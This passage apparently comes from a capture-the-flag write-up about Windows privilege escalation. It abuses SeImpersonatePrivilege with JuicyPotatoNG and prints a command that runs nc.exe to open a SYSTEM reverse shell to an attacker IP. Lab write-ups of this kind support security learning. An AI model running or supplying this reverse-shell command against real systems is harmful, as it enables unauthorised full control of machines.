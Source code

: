 If we check running `whoami /all`, it will show that there's `SeImpersonatePrivilege` enabled meaning that we can abuse that to get a SYSTEM token and eventually get a system shell

<img src="https://i.imgur.com/XSthGOl.png"/>

With `JuicyPotato-NG`, we can get a reverse shell as SYSTEM

```powershell
JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Windows\Temp\nc.exe 10.10.14.70 80 -e cmd.exe"
```


<img src="https://i.imgur.com/9pXxoI1.png"/>

## References

- https://www.thehacker.recipes/ad/movement/ad-cs
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.5%20compiled%20binaries/Certify.exe
